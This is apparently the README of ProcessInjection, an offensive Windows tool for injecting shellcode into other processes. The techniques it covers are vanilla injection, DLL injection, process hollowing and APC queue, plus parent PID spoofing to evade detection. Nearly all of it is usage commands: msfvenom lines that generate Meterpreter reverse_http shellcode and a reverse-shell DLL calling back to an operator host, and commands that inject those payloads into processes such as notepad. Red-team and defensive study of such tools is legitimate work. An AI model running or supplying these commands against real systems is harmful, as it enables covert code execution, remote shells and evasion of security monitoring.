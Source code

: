 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 4 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing
	4) APC Queue

Vanila Process Injection
Currently the tool accepts shellcode in 3 formats.

	1) base64
	2) hex
	3) C

Supports 1 detection evading technique.

	1) Parent PID Spoofing
	

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" | base64
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f hex
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f c
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b "\x00" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:"C:\Users\User\Desktop\calc.dll" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /f:c /t:3
	
	[+] APC Queue
	[+] Generating shellcode in c format and injecting it in the target process.
	[+] msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b ""\x00"" -f c
	[+] ProcessInjection.exe /ppath:""C:\Windows\System32\notepad.exe"" /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:7

	Detection Evading Technique

	Parent PID Spoofing with Vanila Process Injection.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:4

	Parent PID Spoofing with DLL Injection.
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f dll > Desktop/reverse_shell.dll
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\reverse_shell.dll" /parentproc:explorer /t:5
	
	Parent PID Spoofing with Process Hollowing.
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b "\x00" -f c
	ProcessInjection.exe /ppath:"C:\Windows\System32\notepad.exe" /path:"C:\Users\User\Desktop\shellcode.txt" /parentproc:explorer /f:c /t:6

	[+] Parent PID Spoofing with APC Queue.
	[+] Generating shellcode in c format and injecting it in the target process.
	[+] msfvenom -p windows/meterpreter/reverse_http exitfunc=thread LHOST=<> LPORT=<> -b ""\x00"" -f c
	[+] ProcessInjection.exe /ppath:""C:\Windows\System32\notepad.exe"" /path:""C:\Users\User\Desktop\shellcode.txt"" /parentproc:explorer /f:c /t:8


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)
[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)\
[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)
[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to [Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code
